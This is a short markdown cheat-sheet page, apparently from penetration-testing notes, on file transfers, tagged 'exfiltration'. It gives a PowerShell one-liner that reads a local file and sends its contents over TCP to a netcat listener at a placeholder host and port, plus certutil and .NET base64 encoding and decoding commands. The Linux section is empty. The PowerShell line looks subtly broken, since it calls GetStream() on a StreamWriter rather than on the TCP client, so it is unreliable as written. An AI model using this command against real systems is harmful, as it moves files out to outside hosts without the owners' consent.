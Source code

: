 ```yaml
---
layout: default
title: File Transfers
tags:
    - download
    - exfiltration
    - scp
    - smb
    - tftp
    - upload
---
```

# File Transfers
## Linux

## Windows
Powershell Send File to Netcat
```shell
$h="<host>";$p="<port>";$data=Get-Content -Path "<file>";$tcp=New-Object System.Net.Sockets.TcpClient($h,$p);$w=New-Object System.IO.StreamWriter($tcp).GetStream();foreach($l in $data){$w.WriteLine($l)};$w.Flush();$w.Close();$tcp.Close();
```

Base 64 Encoding
```shell
certutil -encode <input> <output>
[System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes("<UTF8 string>")) > <b64 output>
```

Base 64 Decoding
```shell
certutil -decode <input> <output>
[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("<b64 string>")) > <UTF8 output>
```